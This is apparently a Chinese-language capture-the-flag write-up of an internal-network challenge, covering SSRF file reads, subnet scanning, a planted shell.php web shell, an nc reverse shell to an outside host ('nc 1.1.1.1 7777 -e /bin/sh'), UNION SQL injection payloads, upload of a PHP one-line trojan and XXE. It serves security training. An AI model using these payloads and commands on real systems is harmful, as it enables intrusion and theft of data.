# 考点总结：

```
1.ssrf  fie://读文件（读哪些文件）、http内网探测、敏感文件跑一跑
2.sql注入，fuzz测试，显示有问题时，order by http://192.168.0.138/?id=-1+and+1=2+union+select+1,database(),3,TABLE_NAME+from+information_schema.tables+where+TABLE_SCHEMA="bugku_sql"+order+by+1
3.nc反弹shell(注意没有bash，使用sh)
4.xxe读文件
```


题目给了一个登录框，用于获取站点快照，存在SSRF，直接读flag



访问host文件，得到本机ip



对192.168.0/24网段爆破，爆破结果如下




## **192.168.0.10**

其中192.168.0.10是被黑的网页：





盲猜shell.php（爆破敏感文件）



直接读根目录flag即可：

- **http://192.168.0.10/shell.php?cmd=cat** /f*



发现当前目录也存在一个flag



直接读即可



题目存在nc



使用nc弹shell，注意不存在bash，要用sh

```
http://192.168.0.10/shell.php?cmd=nc 1.1.1.1 7777 -e /bin/sh
```



## **192.168.0.138**

内网探测到192.168.0.138，存在联合注入，payload如下

```
http://192.168.0.138?id=100%20union%20select%201,2,3,(select%20*%20from%20bugku_sql.flag)--+
```



## **10.10.0.22**

由于fscan出了点问题，写了个python脚本跑了一下10.10.0/24网段：

```python
import requests

for i in range(1,256):
    url = "http://10.10.0." + str(i)
    try:
        r = requests.get(url)
    except:
        continue
    else:
        if r.status_code == 200:
            print(url)
```




还存在10.10.0.22这台机子




访问后台admin.php，账号密码都是admin 后台有一个文件上传的功能，没有过滤，直接上传一句话木马连接即可：




同样也是存在两个flag 一个在网站目录


一个在根目录




## **192.168.0.250**

内网192.168.0.250是一个登录页面




存在xxe漏洞 直接读flag接口




根据前一题的经验，在/var/www/html下可能还存在一个flag



> 